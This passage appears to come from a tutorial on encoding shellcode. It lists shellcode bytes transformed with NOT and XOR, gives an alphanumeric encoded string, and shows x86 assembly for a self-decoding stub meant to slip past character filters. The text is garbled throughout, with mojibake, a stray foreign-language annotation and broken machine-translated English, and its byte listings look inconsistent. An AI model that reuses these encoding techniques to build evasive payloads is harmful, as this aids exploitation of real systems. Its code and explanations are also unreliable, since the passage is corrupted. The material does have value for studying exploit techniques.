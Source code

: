```
\x6e
\x68
\x6a
\x6f
\x6e
\x61
\x89 not \x76
\xe1 not xor \x50 \x4e
\xb3 not \x4c
\x51 xor \x01 \x50
\xb0 not \x4f
\x54 xor \x04 \x50 
\xcd not \x32
\x80 not xor \x50 \x2f
\x31
\xdb not \x24
\xb0 not \x4f
\x01 xor \x50 \x51
\xcd not \x32
\x80 not xor \x50 \x2f
```



That鈥檚 quite tedious, but nothing prevents you from xorer to get a pretty phrase
([http://www.shell-storm.org/shellcode/files/shellcode-650.php](http://www.shell-storm.org/shellcode/files/shellcode-650.php) example) or on only
alphanumeric characters!

We get here: 

```
1?$1161-MYjZhthanhjonavNLQOT2/$1OQ2/
```



### III 鈥� 3. Decoding (method 1)

鈥斺€斺€斺€斺€斺€斺€斺€斺€斺€�

Tools and xor in hand, it is very easy to decode the sentence.
The challenge remaining is to find the right not to fall on the right byte xorer, we determine
subsequently using NDISASM锛堝簲璇ユ槸涓€涓弽姹囩紪宸ュ叿锛�.
For simplicity starting 40 (28 in hex) which is a round number, which corresponds to a character
Print. The shellcode decoding should therefore not exceed 86 bytes with this method.



```asm
xor [eax + 41], bh; We begin with the second since the first byte is 31 with a not (xor ff)
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050; We modify dx order xorer with 4A
pop dx
xor [eax + 49], dh
push word 0x5050
pop dx
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh; do not xor
push word 0x5050
pop dx
xor [eax + 63], dh
xor [eax + 64], bh
push word 0x5050
pop dx
```